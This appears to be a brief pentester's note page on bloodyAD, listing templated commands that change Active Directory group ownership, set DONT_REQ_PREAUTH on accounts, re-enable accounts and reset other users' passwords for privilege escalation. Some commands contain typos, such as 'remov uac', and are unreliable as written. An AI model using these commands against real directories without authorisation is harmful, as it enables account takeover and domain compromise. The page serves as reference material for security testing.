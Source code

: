 # bloodyAD

## Overview

This tool can perform specific LDAP calls to a domain controller in order to perform AD privesc.

bloodyAD supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

Used to perform ldap queries

## Installation

pip install bloodyAD

## Usage

Set owener of group

    bloodyAD --host <host_ip> -d '<domain_name>' -u '<username>' -p '<password>' set owner <group_name> <name_of_new_owner>

Set dont_req_preauth

    bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k add uac <username_of_target_account> -f DONT_REQ_PREAUTH


Enable an account

    bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k remov uac <username_of_target_account> -f ACCOUNTDISABLE

Change Set Password

    bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k set password <username_target> '<new_password>'

## More Information

https://github.com/CravateRouge/bloodyAD/wiki/User-Guide